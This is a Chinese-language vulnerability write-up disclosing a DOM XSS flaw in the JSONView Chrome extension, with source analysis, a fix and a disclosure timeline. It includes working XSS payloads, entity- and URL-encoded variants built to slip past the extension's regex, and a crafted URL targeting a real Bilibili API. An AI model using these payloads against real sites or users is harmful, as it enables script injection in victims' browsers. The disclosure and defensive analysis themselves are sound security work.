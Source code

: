 ```yaml
---
layout: post
title: 明枪易躲暗箭难防 - JSONView 0day
---
```

#### 0x01 JSONView 介绍

- Github: [https://github.com/gildas-lormeau/JSONView-for-Chrome](https://github.com/gildas-lormeau/JSONView-for-Chrome)

- ChromeStore: [https://chrome.google.com/w.....bnpoihckbnefhakgolnmc?hl=en-US](https://chrome.google.com/webstore/detail/jsonview/chklaanhfefbnpoihckbnefhakgolnmc?hl=en-US)

JSONView 插件是目前最热门的一款开发者工具插件，它是查看json数据的神器。通常来讲，json 数据一般没有经过格式化或经过了 unicode 编码，没有缩进，没有换行等，给开发者阅读造成了一定困难。而jsonview 插件可以自动对 json 数据转码，缩进，格式化，直接显示出格式化后的数据，使得开发人员可以更好的阅读信息，本文中出现问题的版本为 Chrome 浏览器下的 JSONView 插件，Firefox 下版本不受影响。

####  0x02 正确的处理方式

我们知道开发人员在使用 JSONP callback 的方式进行跨域请求时，通常会为了方便前端调用 callback 名是可自定义的，例如 function?callback=jQuery14114 ，这时页面将会输出 callback 的参数值到页面中，所以出现了很多 callback 导致的跨站漏洞，解决方案大多由过滤 URL 特殊字符、严格定义 Response 头的 Content-Type:application/json 。

下面这个例子则为 Bilibili API : 

http://api.bilibili.com/x/favourite/folder?callback=jQu%3Ch1%3E163&jsonp=jsonp&_=1461828995783

![http://ww4.sinaimg.cn/large/c334041bjw1f3cq8flqacj20s70h9n1z.jpg](http://ww4.sinaimg.cn/large/c334041bjw1f3cq8flqacj20s70h9n1z.jpg)

我们可以看到由于 Reponse Headers 严格定义了 Content-Type 类型为 json 数据格式，所以尽管我成功注入了未转义标签代码，但仍然不会得到执行（ChromeView-source 模式下如果正常解析后是会有高亮标识的），JSONView 的故事也是从这个时候开始的。

#### 0x03 Dom XSS Vulnerability

我们之前谈到过 JSONView 插件能够美化原本乱糟糟的 JSON 数据，就像这样：

![http://ww1.sinaimg.cn/large/c334041bjw1f3cqeknx1qj20s70h9tbv.jpg](http://ww1.sinaimg.cn/large/c334041bjw1f3cqeknx1qj20s70h9tbv.jpg)

在使用 JSONView 的过程中我发现它把数据提取进行了渲染，也就导致原本不存在的漏洞在这里得以重现！这里有一个前提，网站使用限制 Content-Type 类型对其的过滤而未过滤特殊字符。所以我们可以看到：

![http://ww2.sinaimg.cn/large/c334041bjw1f3cr2k0s8gj20s70h9dj8.jpg](http://ww2.sinaimg.cn/large/c334041bjw1f3cr2k0s8gj20s70h9dj8.jpg)

在之后的源码分析中得知是因为通过 DOM 插入数据，直接写入 script 是不加载资源的，所以我们可以使用很多方法来触发恶意代码：

    1. <img src=@ onerror=alert(1)>
    2. <body onload=alert(1)>
    3. ...

通过测试后发现，只要参数中包含 空格、圆括号，插件即使是在开启的情况下，也不会再对 JSON 结果进行数据解析，虽然在黑盒测试过程中我通过斜线等技巧实现了加载恶意代码，但还是要来看看这个插件究竟做了哪些处理。

![http://ww3.sinaimg.cn/large/c334041bjw1f3cr7b3e7mj20pv0ex78p.jpg](http://ww3.sinaimg.cn/large/c334041bjw1f3cr7b3e7mj20pv0ex78p.jpg)

#### 0x04 源码分析

通过断点调试，寻找到 innerHTML 文件：/master/WebContent/content.js

    function displayUI(theme, html) {
        var statusElement, toolboxElement, expandElement, reduceElement, viewSourceElement, optionsElement, content = "";
        content += '<link rel="stylesheet" type="text/css" href="' + chrome.runtime.getURL("jsonview-core.css") + '">';
        content += "<style>" + theme + "</style>";
        content += html;
        document.body.innerHTML = content;
        ....
    }
    
    function init(data) {
        port.onMessage.addListener(function(msg) {
            if (msg.oninit) {
                options = msg.options;
                processData(data);
            }
            if (msg.onjsonToHTML)
                if (msg.html) {
                    displayUI(msg.theme, msg.html);
                } else if (msg.json)
                    port.postMessage({
                        getError : true,
                        json : json,
                        fnName : fnName
                    });
            if (msg.ongetError) {
                displayError(msg.error, msg.loc, msg.offset);
            }
        });
        port.postMessage({
            init : true
        });
    }

我们看到在 displayUI 函数中 innerHTML 的操作：document.body.innerHTML = content; ，下面来看一下 jsonToHTML 函数在入口文件 /JSONView-for-Chrome/blob/master/WebContent/background.js 中加载：

![http://ww1.sinaimg.cn/large/c334041bjw1f3crcwqlfvj20s20j378x.jpg](http://ww1.sinaimg.cn/large/c334041bjw1f3crcwqlfvj20s20j378x.jpg)

/master/WebContent/workerFormatter.js 提取核心部分代码：

    function htmlEncode(t) {
        return t != null ? t.toString().replace(/&/g, "&amp;").replace(/"/g, "&quot;").replace(/</g, "&lt;").replace(/>/g, "&gt;") : '';
    }
    
    function decorateWithSpan(value, className) {
        return '<span class="' + className + '">' + htmlEncode(value) + '</span>';
    }
    
    function jsonToHTML(json, fnName) {
        var output = '';
        if (fnName)
            output += '<div class="callback-function">' + fnName + '(</div>';
        output += '<div id="json">';
        output += valueToHTML(json);
        output += '</div>';
        if (fnName)
            output += '<div class="callback-function">)</div>';
        return output;
    }
    
    addEventListener("message", function(event) {
        var object;
        try {
            object = JSON.parse(event.data.json);
        } catch (e) {
            postMessage({
                error : true
            });
            return;
        }
        postMessage({
            onjsonToHTML : true,
            html : jsonToHTML(object, event.data.fnName)
        });
    }, false);

之后对 html : jsonToHTML(object, event.data.fnName) 其中的 event 下断点进行追踪，找到 fnName 的赋值代码 /master/WebContent/content.js：

    function extractData(rawText) {
        var tokens, text = rawText.trim();
    
        function test(text) {
            return ((text.charAt(0) == "[" && text.charAt(text.length - 1) == "]") || (text.charAt(0) == "{" && text.charAt(text.length - 1) == "}"));
        }
    
        if (test(text))
            return {
                text : rawText,
                offset : 0
            };
        tokens = text.match(/^([^\s\(]*)\s*\(([\s\S]*)\)\s*;?$/);
        if (tokens && tokens[1] && tokens[2]) {
            if (test(tokens[2].trim()))
                return {
                    fnName : tokens[1],
                    text : tokens[2],
                    offset : rawText.indexOf(tokens[2])
                };
        }
    }

在 extractData 函数中，我们找到了 fnName 的赋值，tokens 会根据正则获取需要解析的 fnName, text 等值，也就是这个正则导致我们是无法注入圆括号的，因为他被匹配到了 text 中：

![http://ww1.sinaimg.cn/large/c334041bjw1f3crx7iib7j20s70h9dld.jpg](http://ww1.sinaimg.cn/large/c334041bjw1f3crx7iib7j20s70h9dld.jpg)

#### 0x05 执行测试代码

通过阅读正则，我们发现可以使用 URL编码（HTML 实体编码）+斜线等方式来注入代码并执行：

    1. <img/src='@'/onerror=alert(window.location)>
    2. <img/src='@'/onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#119;&#105;&#110;&#100;&#111;&#119;&#46;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#41;>
    3. <img/src='@'/onerror=%3Cimg/src=%27@%27/onerror=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B%26%2340%3B%26%23119%3B%26%23105%3B%26%23110%3B%26%23100%3B%26%23111%3B%26%23119%3B%26%2346%3B%26%23108%3B%26%23111%3B%26%2399%3B%26%2397%3B%26%23116%3B%26%23105%3B%26%23111%3B%26%23110%3B%26%2341%3B%3E>
    4. http://api.bilibili.com/x/favourite/folder?callback=jQu11111%3Cimg/src=%27@%27/onerror=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B%26%2340%3B%26%23119%3B%26%23105%3B%26%23110%3B%26%23100%3B%26%23111%3B%26%23119%3B%26%2346%3B%26%23108%3B%26%23111%3B%26%2399%3B%26%2397%3B%26%23116%3B%26%23105%3B%26%23111%3B%26%23110%3B%26%2341%3B%3E765386356466327_1461828974439&jsonp=jsonp&_=1461828995783

通过几次变形，我们编写出最终的测试代码以弹出 window.location 地址，就这样原本过滤严谨的接口因为 JSONView 的问题而全面崩塌：

![http://ww1.sinaimg.cn/large/c334041bjw1f3cs4pacnqj20pv0exado.jpg](http://ww1.sinaimg.cn/large/c334041bjw1f3cs4pacnqj20pv0exado.jpg)

#### 0x06 修复方案

使用 /master/WebContent/workerFormatter.js 文件中的 htmlEncode 函数进行过滤：

    function jsonToHTML(json, fnName) {
        var output = '';
        if (fnName)
            output += '<div class="callback-function">' + htmlEncode(fnName) + '(</div>';
        output += '<div id="json">';
        output += valueToHTML(json);
        output += '</div>';
        if (fnName)
            output += '<div class="callback-function">)</div>';
        return output;
    }

#### 0x07 VulnTimeline

- Find the vulnerability. - 2016/04/28 15:00
- Because the JSONView plug-in (Chrome platform) has not been updated for a long time, Unable to contact the author to fix the vulnerability. - 2016/04/28 20:15
- Write the Paper, via @evi1m0. - 2016/04/28 22:32